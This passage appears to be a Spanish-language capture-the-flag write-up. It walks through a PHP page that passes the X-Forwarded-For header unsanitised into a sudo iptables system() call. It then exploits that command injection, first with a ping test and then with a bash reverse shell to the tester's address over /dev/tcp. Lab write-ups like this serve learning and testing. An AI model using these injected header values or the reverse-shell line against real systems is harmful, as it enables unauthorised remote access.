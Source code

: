 ```php
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
		</div>
	</section>
</div>
```
este script nos indica que si logramos tener acceso emplea la variable que será nuestra ip seteada donde ip vale la cabezera HTTP_X_FORWARDED_FOR el campo de encabezado HTTP X-Forwarded-For es un método común para identificar la dirección IP de origen de un cliente que se conecta a un servidor web a través de un proxy HTTP o un equilibrador de carga. HTTP_X_FORWARDED_FOR: si no está vacío indica que se ha utilizado un proxy. Al pasar por el proxy lo que hace éste es poner su dirección IP como REMOTE_ADDR y añadir la que estaba como REMOTE_ADDR al final de esta cabecera. es por eso que una vez que ponemos la flag correcta nos habilita el puerto aceptando solo nuestra ip por medio de ip tables, delante de ip hay un campo que podría seguir otro comando que yo le indique a nivel de sistema, por lo tanto agregare la cabezera primero

**X-FORWARDED-FOR:**

seguido de la data que quiera inyectar en $ip donde hace la comparacion en el script de php, por ejemplo en este caso me enviaré una traza icmp para ver si tengo un RCE,quedando de la siguiente forma

**X-FORWARDED-FOR: ;ping -c 1 10.10.14.8;**
![](/assets/img/commons/Union/burp8.png)

y logramos tener traza icmp
![](/assets/img/commons/Union/terminal.png)
solo nos queda enviarnos una reverse shell

```console
X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1';
```
![](/assets/img/commons/Union/terminal1.png)
